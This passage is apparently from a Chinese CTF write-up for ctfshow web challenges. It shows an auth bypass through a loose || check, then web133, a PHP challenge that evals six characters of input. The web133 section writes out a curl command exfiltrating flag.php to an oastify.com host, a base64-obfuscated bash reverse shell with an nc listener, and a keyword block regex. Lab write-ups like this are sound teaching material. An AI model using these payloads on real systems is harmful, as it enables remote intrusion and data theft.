 ```php
}
```

逻辑：`if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin")`这里使用的||运算直接username=admin绕过，在给个code=admin就直接拿到flag了

payload:

```
/admin/index.php?code=admin&username=admin&password=666
```

## Web133

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 16:43:44

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

参考：

[ctfshow web133和其他命令执行的骚操作-CSDN博客](https://blog.csdn.net/qq_46091464/article/details/109095382)

关键是使用``执行命令

payload：

```
方法一：
?F=`$F`;+curl -F xx=@flag.php  sok4bsu5pputpnmse0ipafcwun0fo7cw.oastify.com
方法二
// 反弹shell,输入攻击机公网IP
┌──(kali㉿kali)-[~]
└─$ echo "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"|base64  
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxCg==

┌──(kali㉿kali)-[~]
└─$ bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxCg==}|{base64,-d}|bash"
payload = `$F;+bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxCg==}|{base64,-d}|bash";`
攻击机建立监听即可:
nc -lvnp 4444
```

